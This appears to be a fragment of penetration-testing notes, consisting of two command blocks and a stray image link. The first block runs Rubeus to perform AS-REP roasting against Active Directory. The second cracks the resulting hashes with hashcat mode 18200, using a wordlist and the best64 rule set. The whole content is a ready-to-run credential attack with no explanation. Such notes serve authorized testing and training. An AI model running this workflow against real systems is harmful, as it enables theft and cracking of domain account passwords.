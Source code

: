 ```powershell
.\Rubeus.exe asreproast /nowrap
```

```shell
hashcat -m 18200 hashes.asreproast `fzf-wordlists` -r /usr/share/hashcat/rules/best64.rule --force
```